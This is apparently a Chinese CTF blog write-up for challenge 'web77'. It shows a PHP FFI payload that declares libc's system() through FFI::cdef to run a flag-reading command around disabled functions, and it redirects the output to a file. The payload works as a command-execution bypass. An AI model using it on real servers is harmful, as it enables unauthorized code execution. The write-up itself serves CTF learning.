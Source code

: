 

<img src="https://i-blog.csdnimg.cn/blog_migrate/2aadd63484a8f027f2a40155e5220f5b.png" alt="" style="max-height:306px; box-sizing:content-box;" />


## web77  FFI (PHP 7 >= 7.4.0, PHP 8)



<img src="https://i-blog.csdnimg.cn/blog_migrate/e6e4725577d1588bd5e455b5eb5bef80.png" alt="" style="max-height:137px; box-sizing:content-box;" />


发现进程读取失败

这里又给出一个方法

FFI

```cobol
c=$ffi = FFI::cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
 
 
 
 
c=$ffi = FFI::cdef("int system(const char *command);");
 
设置 ffI变量 通过 FFI的cdef方法定义system函数的原型
 
然后设置变量 $a为 读取flag命令 并且重定位到  1.txt
 
通过 ffi变量执行 命令
```

最后访问1.txt



<img src="https://i-blog.csdnimg.cn/blog_migrate/02fe2d4a6029fea7b8b13850b714b5f9.png" alt="" style="max-height:129px; box-sizing:content-box;" />